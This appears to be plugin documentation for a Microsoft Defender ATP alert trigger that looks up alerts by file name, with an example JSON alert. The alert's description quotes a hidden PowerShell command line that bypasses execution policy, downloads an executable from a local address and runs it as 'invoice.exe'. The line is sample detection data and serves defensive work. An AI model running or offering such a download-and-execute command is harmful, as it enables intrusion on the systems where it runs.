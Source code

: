 ### Get Alerts by File Name

This trigger is used to get alerts by file name.

#### Input

|Name|Type|Default|Required|Description|Enum|
|----|----|-------|--------|-----------|----|
|filename|string|None|True|File name to get|None|

#### Output

|Name|Type|Required|Description|
|----|----|--------|-----------|
|results|[]alert|True|All alerts that match the given file name|

Example output:

```
{
   "results":[
      {
         "AlertTime":"2018-11-07T18:59:10.2582627Z",
         "ComputerDnsName":"xxxxxxxx",
         "AlertTitle":"Suspicious Powershell commandline",
         "Category":"SuspiciousActivity",
         "Severity":"Medium",
         "AlertId":"636772141692393966_614861963",
         "LinkToWDATP":"https://securitycenter.windows.com/alert/636772141692393966_614861963",
         "Sha1":"1b3b40fbc889fd4c645cc12c85d0805ac36ba254",
         "FileName":"powershell.exe",
         "FilePath":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0",
         "IoaDefinitionId":"7f1c3609-a3ff-40e2-995b-c01770161d68",
         "AlertPart":0,
         "FullId":"636772141692393966_614861963:DEkMrsut7_rqWkwqIaCEcsytUIOl_Dvi56ShSB9wKco=",
         "LastProcessedTimeUtc":"2018-11-07T19:05:01.8993766Z",
         "Source":"EDR",
         "Md5":"95000560239032bc68b4c2fdfcdef913",
         "Sha256":"d3f8fade829d2b7bd596c4504a6dae5c034e789b6a3defbe013bda7d14466677",
         "LogOnUsers":"XXXXXXXX\\Administrator",
         "MachineName":"XXXXXX",
         "InternalIPv4List":"XXX.XXX.XXX.XXX",
         "InternalIPv6List":"XXXXXXXXXX",
         "FileHash":"1b3b40fbc889fd4c645cc12c85d0805ac36ba254",
         "DeviceID":"c6944fa14970633adeecbabc104167ef12557a6f",
         "Description":"A suspicious Powershell commandline was found on the machine. This commandline might be used during installation, exploration, or in some cases with lateral movement activities which are used by attackers to invoke modules, download external payloads, and get more information about the system. Attackers usually use Powershell to bypass security protection mechanisms by executing their payload in memory without touching the disk and leaving any trace.\r\nThe process powershell.exe was executing suspicious commandline \r\npowershell.exe  -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe'); Start-Process 'C:\\test-WDATP-test\\invoice.exe'",
         "ExternalId":"418AE8AD3F8A1B26F9D02B09E0583A0AEBAC93E7",
         "IocUniqueId":"DEkMrsut7_rqWkwqIaCEcsytUIOl_Dvi56ShSB9wKco="
      }
   ]
}
```
